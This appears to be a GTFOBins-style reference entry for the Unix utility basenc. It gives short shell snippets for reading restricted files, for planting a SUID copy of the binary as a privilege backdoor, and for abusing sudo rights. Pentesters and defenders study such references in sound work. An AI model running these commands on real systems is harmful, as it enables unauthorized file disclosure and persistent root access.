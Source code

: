 # GTFOBin: basenc

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
basenc --base64 $LFILE | basenc -d --base64
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which basenc) .

LFILE=file_to_read
basenc --base64 $LFILE | basenc -d --base64
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo basenc --base64 $LFILE | basenc -d --base64
```